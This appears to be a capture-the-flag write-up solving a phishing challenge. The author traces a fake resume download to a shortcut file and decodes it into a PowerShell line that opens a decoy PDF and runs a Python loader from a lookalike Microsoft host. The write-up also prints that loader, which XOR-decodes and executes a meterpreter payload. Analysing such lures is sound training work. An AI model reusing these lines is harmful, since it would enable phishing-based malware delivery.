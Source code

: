 # A new Hire 
### The Royal Archives of Eldoria have recovered a mysterious document—an old resume once belonging to Lord Malakar before his fall from grace. At first glance, it appears to be an ordinary record of his achievements as a noble knight, but hidden within the text are secrets that reveal his descent into darkness.

First, the challenge welcomes us with an .eml file, so an email. We then open it to see its contents :

![mail](https://github.com/user-attachments/assets/5a98887e-2016-47fd-9278-ea2060108038)

We then go to the link provided by the challenge after making a small modification to `/etc/hosts` and entering the port provided by the challenge.
We then arrive at an index.php file, which prompts us to click a button to reveal the CV :

![index php](https://github.com/user-attachments/assets/2e5a353f-aa1d-4f3f-84c3-cc4508fa220d)

This button, which is supposed to unlock our access to the CV, actually downloads this :

![remuse pdf](https://github.com/user-attachments/assets/36f27514-808b-4cf9-89c7-dedbb8d668e6)

So I wonder, what is this shortcut doing ?

![raccourci](https://github.com/user-attachments/assets/42e35513-8fde-402a-b699-ae8e0fd6fdbe)

Once decoded from base64, we get this :
```powershell 
[System.Diagnostics.Process]::Start('msedge', 'http://storage.microsoftcloudservices.com:41075/3fe1690d955e8fd2a0b282501570e1f4/resumesS/resume_official.pdf');  \\storage.microsoftcloudservices.com@41075\3fe1690d955e8fd2a0b282501570e1f4\python312\python.exe \\storage.microsoftcloudservices.com@41075\3fe1690d955e8fd2a0b282501570e1f4\configs\client.py
```
So we go to the URL `http://storage.microsoftcloudservices.com:41075/3fe1690d955e8fd2a0b282501570e1f4/configs/client.py`, which lets us download another little gift :
```python
key=base64.decode("SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg==")

data = base64.b64decode("c97FeXRj6jeG5P74ANItMBN […] ")
meterpreter_data = bytes([data[i] ^ key[i % len(key)] for i in range(len(data))])

exec(__import__('zlib').decompress(meterpreter_data)[0])
```
Which leads us to this :
```python
import base64
print(base64.b64decode("SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg=="))
```
Bingo! Let's make it readable again :

![flag2](https://github.com/user-attachments/assets/9fe23c1a-e189-40e2-841f-21a5ef59b4b5)

And there you have it !
